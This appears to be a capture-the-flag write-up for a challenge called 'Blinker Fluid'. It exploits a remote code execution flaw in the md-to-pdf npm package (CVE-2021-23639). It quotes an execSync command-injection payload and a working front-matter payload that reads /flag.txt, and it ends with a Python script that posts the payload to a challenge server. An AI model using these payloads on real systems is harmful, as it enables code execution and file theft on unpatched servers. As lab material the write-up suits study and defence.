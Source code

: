 # Blinker Fluid

This turned out to be a really quick challenge. After downloading the code and googling for exploits on the NPM packages I
found that `md-to-pdf` was vulnerable to a [RCE exploit CVE-2021-23639](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880). 
I tried a couple of versions of the `---jsn((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE` payload that's 
mentioned in different POCs, but I couldn't get it to work. Then I found this [github issue](https://github.com/simonhaenisch/md-to-pdf/issues/99#issuecomment-925583328)
that shows a different way of writing the exploit. 

This turned out to work 👇
```
---js
{
    css: `body::before { content: "${require('fs').readFileSync('/flag.txt')}"; display: block }`,
}
---
```

## Pwn script

```python
import requests

host = "http://68.183.36.105:32615" # Host to attack
url = host + "/api/invoice/add"
payload = "---js\n{\n    css: `body::before { content: \"${require('fs').readFileSync('/flag.txt')}\"; display: block }`,\n}\n---" # Be very careful, a slight syntax error will cause the exploit to fail.
json = {"markdown_content": payload}

res1 = requests.post(url,json=json)

if res1.status_code != 200:
    print("Explpoit failed Status Code - ", res1.status_code)
else:
    print("Exploit worked, visit - " + host + " and view latest Invoice")
```
